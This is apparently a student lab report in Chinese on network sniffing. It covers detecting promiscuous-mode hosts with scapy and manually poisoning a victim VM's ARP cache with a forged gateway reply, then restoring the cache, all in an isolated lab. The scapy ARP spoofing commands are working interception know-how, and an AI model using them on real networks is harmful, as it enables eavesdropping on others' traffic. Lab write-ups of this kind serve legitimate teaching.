


# 实验四 网络监听

## 实验环境

为攻击者加一个内部网卡，使他们在同一局域网内

网络拓扑

|  对象   | ip地址 | 网卡/物理地址  |
|  ----  | ----  | ----  |
|  网关 gateway | 172.16.111.1 | 08:00:27:85:73:ce/enp0s9 |
|  攻击者 attacker | 172.16.111.113 | 08:00:27:21:8e:0e/eth0 |
|  受害者 victim | 172.16.111.147 | 08:00:27:e0:45:e0/eth0 |

## 实验过程

### 安装 scapy

在攻击者主机上提前安装好   `scapy`

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



### 实验一：检测局域网中的异常终端

在受害者主机上检查网卡的混杂模式是否启用

```bash
ip link show eth0
```


到攻击者主机上 `sudo scapy` ，启用 `scapy`

在 scapy 的交互式终端输入以下代码

```bash
pkt=promiscping("172.16.111.147")
```

回到受害者主机上手动开启该网卡的混杂模式，再次

```bash
ip link show eth0
```


发现输出结果里多出了个 `PROMISC` 

回到攻击者主机上的 `scapy` 交互式终端继续执行命令

```bash
pkt = promiscping("172.16.111.147")
```


看出在混杂模式下受害者主机收到了这个数据包

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

这时再发送，受害者主机将无法收到数据包

根据[混杂模式和非混杂模式](https://blog.csdn.net/lengye7/article/details/71191291?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167385977316800217032848%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=167385977316800217032848&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-71191291-null-null.142^v71^one_line,201^v4^add_ask&utm_term=%E6%99%AE%E9%80%9A%E6%A8%A1%E5%BC%8F%E5%92%8C%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F&spm=1018.2226.3001.4187)可以知道：

- 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，不验证MAC地址
- 普通模式：网卡只接收发给本机的包

### 手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的 `scapy` 交互式终端中构造一个 `arp` 请求

```bash
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
且用
```
arpbroadcast.show()
```

查看构造好的 `ARP` 请求报文详情


```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

```


伪造网关的 `ARP` 响应包

```bash
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.147", hwdst="08:00:27:21:8e:0e")
```
`ARP` 响应的目的 `MAC` 地址设置为攻击者主机的 `MAC` 地址

发送上述伪造的 `ARP` 响应数据包到受害者主机


此时在受害者主机上查看 `ARP` 缓存会发现网关的 `MAC` 地址已被替换为攻击者主机的 `MAC` 地址

```bash
ip neigh
```


回到攻击者主机上的 `scapy` 交互式终端继续执行命令

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:73:ce", pdst="172.16.111.147", hwdst="08:00:27:e0:45:e0")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 `ARP` 记录

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 实验问题

在 `Virtual Box` 中手动进行攻击者主机的网络配置时，给它新增了 `intnet1` 网卡后用 `ip a` 命令查看不到新增的网卡信息，需要在攻击者主机的网络配置文件 `/etc/network/interfaces` 中用 `vim` 加入 `auto eth0 iface eth0 inet dhcp`

## 参考资料

[课本第四章实验](http://courses.cuc.edu.cn/course/90732/learning-activity/full-screen#/378666)
[混杂模式和非混杂模式](https://blog.csdn.net/lengye7/article/details/71191291?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167385977316800217032848%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=167385977316800217032848&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-71191291-null-null.142^v71^one_line,201^v4^add_ask&utm_term=%E6%99%AE%E9%80%9A%E6%A8%A1%E5%BC%8F%E5%92%8C%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F&spm=1018.2226.3001.4187)
[Kali虚拟机的nat网络配置](https://blog.csdn.net/AFture/article/details/113623313?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167386343216782425160886%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=167386343216782425160886&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-113623313-null-null.142^v71^one_line,201^v4^add_ask&utm_term=kali%20nat%E9%85%8D%E7%BD%AE&spm=1018.2226.3001.4187)